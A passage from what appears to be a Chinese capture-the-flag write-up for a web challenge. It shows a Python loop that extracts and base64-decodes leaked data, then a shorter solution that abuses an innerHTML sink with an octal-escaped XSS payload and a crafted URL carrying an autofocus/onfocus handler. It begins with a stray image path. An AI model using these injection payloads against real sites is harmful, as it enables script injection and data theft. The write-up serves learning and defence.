 ```python
    for i in r.text.split("\n"):
        if "你留下的评论" in i:
            text = i.split("：")[1].replace('");', "")
            print(text)
            x = base64.b64decode(text).decode()
            return x
res += read_contents()
post_payload()
bot(18, 36)
res += read_contents()
post_payload()
bot(36, 53)
res += read_contents()
post_payload()
bot(53, 71)
res += read_contents()
print(res)
print(unquote_plus(res))
```

（所以这是一道同时要用到 pwntools 和 requests 的 web 题）。

## 更短的解答

以下采用了 @xmcp 的解，在此表示感谢。

这道题的攻击面事实上比上面所描述的更大。因为 `updateElement()` 的实现是这样的：

```javascript
function updateElement(selector, html) {
    document.querySelector(selector).innerHTML = html;
}
```

是 `innerHTML` 而不是 `textContent`，因此也可以插入任意的 HTML（而不仅仅是任意执行 JS 代码）。

一个例子是：

```
\74a "+location+"\76
```

其中 `"\74"` 是 `"<"`，`"\76"` 是 `">"`，因此最后会变成：

```javascript
updateElement("#comment", "你留下的评论：\74a "+location+"\76");
```

反映到 HTML 里面就是 `<a （location 的内容）>`，浏览器解析后即：

```html
<a http:="" web="" result=""></a>
```

而 URL 可以这么写：

```
http://web/result?/href/autofocus/onfocus=xxx
```
